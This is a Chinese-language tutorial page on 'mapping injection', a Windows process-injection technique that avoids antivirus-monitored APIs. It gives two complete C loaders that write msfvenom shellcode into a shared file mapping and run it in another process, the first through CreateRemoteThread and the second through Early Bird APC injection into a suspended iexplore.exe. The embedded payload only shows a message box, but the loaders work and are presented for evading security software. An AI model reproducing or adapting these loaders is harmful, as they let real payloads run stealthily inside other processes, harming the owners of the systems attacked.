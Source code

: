 ```yaml
---
description: Mapping Injection
---
```


# Mapping Injection

## [CreateFileMapping-&gt;MapViewOfFile](mapping-injection.md)简介

映射注入是一种内存注入技术，可以避免使用一些经典注入技术使用的API,如VirtualAllocEx,WriteProcessMemory等被杀毒软件严密监控的API，同时创建Mapping内核对象本质上属于申请一块物理内存，而申请的物理内存又能比较方便的通过系统函数直接映射到进程的虚拟内存里，这也就避免使用经典写入函数，增加了隐蔽性。

![](../.gitbook/assets/image%20%2818%29.png)

## 注入流程

1. 在注入进程创建mapping
2. 将mapping映射到注入进程虚拟地址
3. 往被映射的虚拟地址写入shellcode
4. 打开被注入进程句柄
5. 将mapping映射到被注入进程虚拟地址
6. 创建远程线程

## 代码实现

PS:CreateFileMapping存在多种用法,并非只有这一种。

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

int main(int argc, char** argv)
{

	

	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 19752);

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```

## 扩展与优化

在前面的章节中说过CreateRemoteThread这样敏感的API也会被杀毒软件重点关注，那么我们同时可以使用别的代码执行方式，比如说APC注入和Early Bird等注入技术，mapping注入技术也可以作为一种非常规的shellcode写入技术使用，我们并不用拘泥与常规的使用方式，也可以与已有技术组合出新的代码执行链。

* 与Early Bird技术组合

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

	int main() {
		STARTUPINFO si = { 0 };
		PROCESS_INFORMATION pi = { 0 };
		si.cb = sizeof(STARTUPINFO);
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

		CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, pi.hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		QueueUserAPC((PAPCFUNC)lpMapAddressRemote, pi.hThread, NULL);
		ResumeThread(pi.hThread);
		CloseHandle(pi.hThread);
		CloseHandle(hMapping);
		UnmapViewOfFile(lpMapAddress);
		return 0;
	}

```

![](../.gitbook/assets/image%20%2817%29.png)

* github:[https://github.com/idiotc4t/Mapping-injection](https://github.com/idiotc4t/Mapping-injection)

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2" %}



